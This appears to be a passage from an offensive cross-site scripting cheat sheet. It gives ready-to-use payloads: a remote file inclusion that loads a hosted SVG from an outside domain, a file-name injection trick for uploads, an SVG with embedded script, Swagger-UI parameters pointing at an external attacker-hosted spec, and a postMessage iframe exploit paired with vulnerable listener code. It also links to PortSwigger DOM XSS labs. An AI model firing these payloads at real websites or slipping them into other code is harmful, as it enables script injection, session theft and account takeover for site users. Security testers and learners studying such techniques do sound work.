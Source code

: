 * **Remote File Inclusion (RFI) to XSS**

```jsx
php?=http://brutelogic.com.br/poc.svg
```

* **File upload To XSS**

```jsx
file upload name XSS
upload a picture file, intercept it, change picturename.jpg to xss payload
```

* **XSS via SVG file**

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("h0tak88r XSS");
   </script>
</svg>
```

### DOM XSS



#### **Check for Dom-XSS in Swagger-UI**

* [https://github.com/doosec101/swagger\_scanner](https://github.com/doosec101/swagger_scanner)
* configUrl=https://jumpy-floor.surge.sh/test.json
* ?url=https://jumpy-floor.surge.sh/test.yaml

#### [**DOM XSS using web messages**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

**Example for Vulnerable Code**

```jsx
<script>
    window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

**Exploit**

```html
<iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

* [**DOM XSS using web messages and a JavaScript URL**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)
* [**DOM XSS using web messages and `JSON.parse`**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)
* [**DOM-based cookie manipulation**](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)
* [**Exploiting DOM clobbering to enable XSS**](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
* [**Clobbering DOM attributes to bypass HTML filters**](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
